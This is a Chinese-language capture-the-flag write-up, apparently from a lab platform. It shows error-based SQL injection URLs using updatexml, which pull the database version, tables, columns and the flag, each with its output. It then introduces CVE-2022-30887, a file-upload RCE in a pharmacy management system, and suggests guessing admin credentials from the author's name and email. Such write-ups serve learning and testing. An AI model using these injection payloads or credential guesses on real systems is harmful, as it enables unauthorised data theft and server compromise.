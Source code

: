 



```
#查看数据库版本
http://eci-2ze9nch9yrgm8gwlzeir.cloudeci1.ichunqiu.com/single.php?id=1'+and+(updatexml(1,concat('~',version()),1))='

#查看数据库名
http://eci-2ze9nch9yrgm8gwlzeir.cloudeci1.ichunqiu.com/single.php?id=1'+and+(updatexml(1,concat('~',database()),1))='
返回 XPATH syntax error: '~ctf'

#查看表名
http://eci-2ze9nch9yrgm8gwlzeir.cloudeci1.ichunqiu.com/single.php?id=1'+and+(updatexml(1,concat('~',(select 
group_concat(table_name) from information_schema.TABLES where TABLE_SCHEMA=database())),1))='
返回 XPATH syntax error: '~titles,page_hits,membership_...' 后面被省略了。。。。。
http://eci-2ze7cxg52hg1pf3n7vot.cloudeci1.ichunqiu.com/single.php?id=1'+and+(updatexml(1,concat('~',substr((select 
group_concat(table_name) from information_schema.TABLES where TABLE_SCHEMA=database()),120,30)),1))='
返回 XPATH syntax error: '~ditors_choice,blogs,links,flag'

#查看字段名
http://eci-2ze7cxg52hg1pf3n7vot.cloudeci1.ichunqiu.com/single.php?id=1'+and+(updatexml(1,concat('~',substr((select group_concat(column_name) from information_schema.columns where table_name='flag'),1,30)),1))='
返回 XPATH syntax error: '~flag'

#读取flag
http://eci-2ze7cxg52hg1pf3n7vot.cloudeci1.ichunqiu.com/single.php?id=1'+and+(updatexml(1,concat('~',substr((select flag from flag),1,30)),1))='
XPATH syntax error: '~flag{2c3c72f6-f66d-4af2-b3e3-5'
http://eci-2ze7cxg52hg1pf3n7vot.cloudeci1.ichunqiu.com/single.php?id=1'+and+(updatexml(1,concat('~',substr((select flag from flag),22,30)),1))='
XPATH syntax error: '~f2-b3e3-5e556fcd041c}'
flag{2c3c72f6-f66d-4af2-b3e3-5e556fcd041c}
```



## CVE-2022-30887 Pharmacy Management System shell upload

靶标介绍：

多语言药房管理系统 (MPMS) 是用 PHP 和 MySQL 开发的, 该软件的主要目的是在药房和客户之间提供一套接口，客户是该软件的主要用户。该软件有助于为药房业务创建一个综合数据库，并根据到期、产品等各种参数提供各种报告。 该CMS中php_action/editProductImage.php存在任意文件上传漏洞，进而导致任意代码执行。

漏洞简介

    Pharmacy Management System（MPMS）是Mayuri K.个人开发者的一个多语言药房管理系统。Pharmacy Management System v1.0 版本存在安全漏洞，该漏洞源于组件 /php_action/editProductImage.php 包含远程代码执行（RCE）问题。攻击者利用该漏洞可以通过制作的图像文件执行任意代码。

不过我们想上传文件得进入后台，进入后台得找到用户名和密码。联系到此网站的作者是Mayuri K，我们可以尝试用作者的email和name作为用户名和密码。
